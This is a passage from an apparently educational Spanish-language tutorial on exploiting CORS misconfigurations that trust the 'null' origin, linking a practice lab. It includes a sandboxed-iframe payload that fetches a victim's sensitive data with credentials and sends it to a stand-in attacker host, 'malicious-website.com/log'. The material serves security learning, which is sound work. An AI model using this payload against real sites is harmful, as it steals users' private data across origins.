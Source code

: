 La `especificación para la cabecera Origin` admite el valor `null`. Los navegadores pueden enviar el valor `null` en la cabecera `Origin` en varias situaciones

- `Redirecciones cross-origin`
    
- `Solicitudes desde datos serializados`
    
- `Solicitudes que usan el protocolo file:`
    
- `Solicitudes cross-origin en entornos restringidos (sandboxed)`

Algunas aplicaciones pueden incluir `null` en la `whitelist` para facilitar el `desarrollo local` de la aplicación. Por ejemplo, supongamos que una aplicación `recibe` la siguiente `solicitud cross-origin`:

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

El servidor `responde` con lo siguiente:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

En esta situación, un `atacante` puede usar varios trucos para generar una `solicitud cross-origin` que contenga el valor `null` en la cabecera `Origin`. Esto satisfará a la `whitelist` permitiendo un `acceso cross-domain`. Por ejemplo, se puede hacer usando una `solicitud cross-origin` en un `iframe sandboxed` de la siguiente forma:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'vulnerable-website.com/sensitive-victim-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
      location = 'malicious-website.com/log?key=' + this.responseText;
    };
  </script>
"></iframe>
```

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- CORS vulnerability with trusted null origin - [https://justice-reaper.github.io/posts/CORS-Lab-2/](https://justice-reaper.github.io/posts/CORS-Lab-2/)

### Explotar un XSS a través de relaciones de confianza de CORS
